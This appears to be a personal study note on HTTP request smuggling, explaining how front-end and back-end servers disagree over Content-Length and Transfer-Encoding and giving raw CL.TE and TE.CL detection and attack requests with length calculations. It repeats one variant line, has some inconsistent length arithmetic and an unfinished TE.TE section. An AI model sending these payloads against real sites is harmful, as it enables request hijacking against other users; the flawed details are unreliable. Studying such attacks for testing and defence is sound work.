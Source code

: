 # HTTP request smuggling

## General info
- HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users.
- Request smuggling is associated to HTTP/1 requests but can also affect HTTP/2-supported websites based on their backend structure.
- Modern web apps often use chains of HTTP servers, with users sending requests to a front-end server (sometimes referred to as a load balancer or reverse proxy), which in turn forwards requests to multiple back-end servers.
- Front-end and back-end systems must agree on request boundaries to prevent ambiguous requests that attackers can exploit
  
## How do HTTP request smuggling vulnerabilities arise?
- HTTP request smuggling vulnerabilities often occur due to the HTTP/1 specification offering two methods to define the request's end: the `Content-Length header` and `Transfer-Encoding` header.
  - The `Content-Length header` specifies the length of the message body in bytes
  - The `Transfer-Encoding` header specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data
    - Each chunk comprises a size in hexadecimal bytes, a newline, and the chunk's content. The message concludes with a zero-sized chunk.
  - TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
  - TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
  - TE.TE: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.
```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```

## Finding HTTP request smuggling vulnerabilities
### Finding CL.TE vulnerabilities using timing techniques
```
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 4\r\n
\r\n
1\r\n
A\r\n
X\r\n
```
The back-end server processes the first chunk using the Transfer-Encoding header, leading to an observable time delay while awaiting the next chunk.

### Finding TE.CL vulnerabilities using timing techniques
```
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 6\r\n
\r\n
0\r\n
\r\n
X
```
- The back-end server, relying on the Content-Length header, waits for additional message body content, resulting in a noticeable time delay.
- NOTE: The timing-based test for TE.CL vulnerabilities will potentially disrupt other application users if the application is vulnerable to the CL.TE variant of the vulnerability. So to be stealthy and minimize disruption, you should use the CL.TE test first and continue to the TE.CL test only if the first test is unsuccessful.

## How to perform an HTTP request smuggling attack
### CL.TE
```
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Length: 13\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
SMUGGLEDGET /second HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
...
```
- Content-Length: 0\r\n\r\nSMUGGLED -> 13
- SMUGGLED ES.: GET / HTTP/1.1\r\nfoo: a


### TE.CL
```
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
2a\r\n
POST /404 HTTP/1.1\r\n
Content-Length: 9\r\n
\r\n
x\r\n
0\r\n
\r\n
```
- This post smuggled request has a body: "x" (plus the second request...)
- Content-Length: 4 -> 2a\r\n
- 2a -> POST /404 HTTP/1.1\r\nContent-Length: 9\r\n\r\nx
- Content-Length: 9 -> x\r\n0\r\n\r\n -> 8, but it must be at least 1 character extra in length to ensure the request gets queued on the backend

```
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
29\r\n
POST /404 HTTP/1.1\r\n
Content-Length: 8\r\n
\r\n
\r\n
0\r\n
\r\n
```
- This request doesn't contain "x" in the body (but will have the second request)
- This type of request is not very useful (use the first) but it can be useful to understand the lengths
- Content-Length: 4 -> 2a\r\n
- 2a -> POST /404 HTTP/1.1\r\nContent-Length: 9\r\n\r\n
- Content-Length: 8 -> \r\n0\r\n\r\n -> 7 + 1 = 8 (minimum)

```
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
26\r\n
GET /404 HTTP/1.1\r\n
Content-Length: 6\r\n
\r\n
0\r\n
\r\n
```
- Content-Length: 4 -> 2a\r\n
- 26 -> GET /404 HTTP/1.1\r\nContent-Length: 6\r\n
- Content-Length: 6 -> 0\r\n\r\n -> 5 + 1 = 6 (minimum)



# TE.TE
- TO DO ...


